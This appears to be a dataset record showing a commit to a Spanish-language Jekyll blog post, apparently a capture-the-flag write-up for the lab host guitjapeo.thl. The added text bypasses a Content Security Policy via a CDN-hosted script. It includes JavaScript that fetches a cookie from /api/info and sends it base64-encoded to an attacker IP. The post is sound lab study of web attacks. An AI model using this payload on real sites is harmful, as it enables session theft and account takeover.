

Before and after one commit to wvverez/wvverez.github.io, a Jekyll site: the page built from _posts/2026-11-22-guitjapeo.md, in a window 1280 px wide and 900 px high, scrolled down 5282 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; before the commit the page ends 5805 px from its top, so only the background shows below that.

Commit message:
Actualizar 2026-11-22-guitjapeo.md

````diff
--- a/_posts/2026-11-22-guitjapeo.md
+++ b/_posts/2026-11-22-guitjapeo.md
@@ -231,3 +231,21 @@ Pero tiene configuradas una cabeceras de Content Security Policy (CSP) para evit
 ```sh
 Content-Security-Policy: default-src 'self' 'unsafe-inline';script-src 'self' https://cdn.jsdelivr.net;style-src 'self' https://fonts.googleapis.com;font-src 'self' https://fonts.gstatic.com;img-src 'self';object-src 'none';frame-src 'none';connect-src 'self';upgrade-insecure-requests;base-uri 'self';form-action 'self';frame-ancestors 'self';script-src-attr 'none'
 ```
+
+Ahora tenemos que probar si podemos robar la cookie, al solo permitir lo que vimos antes tenemos que crear una cuenta de Github, creamos un repositorio publico, y vamos a crear un archivo con JavaScript para hacer una petición por GET a `https://guitjapeo.thl/api/info` y esperamos que el server mande el JSON que lleva la cookie una vez llegue la respuesta nos la pasamos a nuestro servidor encodeada en `base64`.
+
+```Javascript
+var req = new XMLHttpRequest();
+req.onload=reqListener;
+var url="https://guitjapeo.thl/api/info";
+req.withCredentials=true;
+req.open("GET",url,false);
+req.send();
+function reqListener() {
+    var req2=new XMLHttpRequest();
+    const sess=JSON.parse(this.responseText).cookie;
+    location.href="http://192.168.91.191/?data="+btoa(sess);
+};
+```
+
+De momento vamos a montarmos un servidor HTTP con python3
````
